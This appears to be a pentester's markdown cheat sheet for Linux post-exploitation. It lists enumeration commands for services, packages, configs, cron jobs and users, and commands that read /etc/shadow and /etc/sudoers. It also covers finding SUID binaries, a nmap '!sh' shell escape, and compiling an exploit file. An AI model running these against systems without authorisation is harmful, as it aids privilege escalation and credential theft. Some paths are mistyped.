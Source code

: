 # Post Exploitation - Linux

#### Information Gathering

Key information
* OS release
* Kernel Version
* Available users and current user privileges
* SUID files
* View the installed packages to check for outdated versions

#### OS Version

OS release:
> lsb_release -a

Kernel version
> uname -a

Is there a printer?
> lpstat -a

#### Application & Services
> ps -aux

> ps -ef

> top

> cat /etc/service

a = show processes for all users
u = display the process's user/owner
x = also show processes not attached to a terminal


##### Determine which services are running as root

> ps aux | grep root

> ps -ef | grep root

##### Determine what applications are installed and their version
> ls -alh /usr/bin/

> ls -alh /sbin/

> dpkg -l

> rpm -qa

> ls -alh /var/cache/apt/archivesO

> ls -alh /var/cache/yum/

> yum list | grep installed

##### Determine versions of important applications
> gcc -v

> mysql --version

> java -version

> python --version

> ruby -v

> perl -v

##### Review system configurations

Syslog Configuration:
> cat /etc/syslog.conf

Web Server Configurations:
> cat /etc/chttp.conf

> cat /etc/lighttpd.conf

> cat /etc/apache2/apache2.conf

> cat /etc/httpd/conf/httpd.conf

> cat /opt/lampp/etc/httpd.conf

PHP Configuration:

> /etc/php5/apache2/php.ini

Printer (cupsd) Configuration:

> cat /etc/cups/cupsd.conf

MySQL Configuration:

> cat /etc/my.conf

Inetd Configuration:
cat /etc/inetd.conf

List All
> ls -aRl /etc/ | awk '$1 ~ /^.*r.*/'

##### Determine scheduled jobs

> crontab -l

> ls -alh /var/spool/cron

> ls -al /etc/ | grep cron

> ls -al /etc/cron*

> cat /etc/cron*

> cat /etc/at.allow

> cat /etc/at.deny

> cat /etc/cron.allow

> cat /etc/cron.deny

> cat /etc/crontab

> cat /etc/anacrontab

> cat /var/spool/cron/crontabs/root`




#### Communications and Networking


#### Confidential Information & Users
> id

> who

> w

> last

> cat /etc/passwd | cut -d: -f1    # List of users

> grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users

> awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users

> cat /etc/sudoers

> sudo -l

##### List Sudoers

> cat /etc/sudoers

##### Attempt to display sensitive files

> cat /etc/passwd

> cat /etc/group

> cat /etc/shadow

> ls -alh /var/mail/

#### Direction on Privilege Escalation
* Exploit against system
* Exploit against services
* Brute force credentials

SUID files
> find / -perm -u=s -type f 2>/dev/null

Check program version
> [/usr/local/bin/nmap --version]

Pop a shell
> !sh


#### Create an exploit file
> touch exploit.c
> vim exploit.c

Compile
> gcc exploit.c -o exploit

Run
> ./exploit


